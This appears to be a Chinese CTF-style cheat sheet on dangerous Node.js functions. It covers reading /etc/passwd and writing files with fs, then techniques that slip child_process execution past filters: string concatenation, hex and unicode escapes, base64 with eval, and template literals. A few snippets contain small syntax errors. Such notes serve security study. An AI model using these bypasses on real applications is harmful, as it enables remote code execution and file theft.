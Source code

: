 #### 一、读取

```js
1. readFile()
require('fs').readFile('/etc/passwd','utf-8',(err,data))=>(
{
    if (err) throw err;
    console.log(data);
});
2.readFileSync()
require('fs').readFileSync('/etc/passwd','utf-8')
```

#### 二、

```js
1.writeFileSync()
require('fs').writeFileSync('input.txt','sss');
2.writeFile()
require('fs').writeFile('input.txt','test',(err)=>{})
```

#### 1.2.3 nodejs危险函数-RCE bypass

**bypass**

原型：

```js
require("child_process").execSync('cat flag.txt')
```

字符拼接：

```js
require("child_process")['exe'%2b'cSync']('cat flag.txt')
//(%2b就是+的url编码)

require('child_process')["exe".concat("cSync")]("open /System/Applications/Calculator.app/")
```

编码绕过：

```js
require("child_process")["\x65\x78\x65\x63\x53\x79\x6e\x63"]('cat flag.txt')
require("child_process")["\u0065\u0078\u0065\u0063\u0053\x79\x6e\x63"]('cat fl001g.txt')
eval(Buffer.from('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCdvcGVuIC9TeXN0ZW0vQXBwbGljYXRpb25zL0NhbGN1bGF0b3IuYXBwLycpOw==','base64').toString()) //弹计算器
```

模板拼接：

```js
require("child_process")[`${`${`exe`}cSync`}`]('open /System/Applications/Calculator.app/'）
```

其他函数：

```js
require("child_process").exec("sleep 3"); 
require("child_process").execSync("sleep 3"); 
require("child_process").execFile("/bin/sleep",["3"]); *//调用某个可执行文件，在第二个参数传args* 
require("child_process").spawn('sleep', ['3']); 
require("child_process").spawnSync('sleep', ['3']); 
require("child_process").execFileSync('sleep', ['3']);
```
